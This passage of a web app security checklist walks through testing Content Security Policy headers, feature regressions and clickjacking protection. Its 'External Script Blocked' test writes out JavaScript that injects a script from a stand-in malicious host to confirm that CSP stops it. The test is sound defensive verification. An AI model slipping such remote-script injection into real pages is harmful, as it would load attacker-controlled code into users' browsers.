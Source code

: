 - [ ] Headers present (or meta tags visible in HTML)

### Step 3: Test App Functionality

**Full feature test:**

- [ ] App loads without errors
- [ ] No CSP violations in console (or only expected ones)
- [ ] Can sign up / log in
- [ ] Can upload profile picture
- [ ] Images load correctly
- [ ] Google Fonts load
- [ ] Can create circles
- [ ] Can send messages
- [ ] Can create events
- [ ] OneSignal notifications work
- [ ] All buttons work (onclick handlers)
- [ ] Styles applied correctly

**Common CSP Errors:**

If you see: `Refused to load the script '...' because it violates the following Content Security Policy directive`

**Fix**: Add the domain to appropriate CSP directive:
- Scripts: Add to `script-src`
- Images: Add to `img-src`
- API calls: Add to `connect-src`

- [ ] No blocking CSP errors
- [ ] All features functional

### Step 4: Test Security Features

**Test 1: Clickjacking Protection**

Try embedding app in iframe:
```html
<!-- Create test.html -->
<iframe src="[YOUR APP URL]"></iframe>
```

- [ ] Iframe blocked (should not load)
- [ ] Console shows: "Refused to display in a frame"

**Test 2: External Script Blocked**

In browser console, try:
```javascript
const script = document.createElement('script');
script.src = 'https://malicious-site.com/evil.js';
document.body.appendChild(script);
```

- [ ] Script blocked by CSP
- [ ] Console shows: "Refused to load the script... violates CSP"
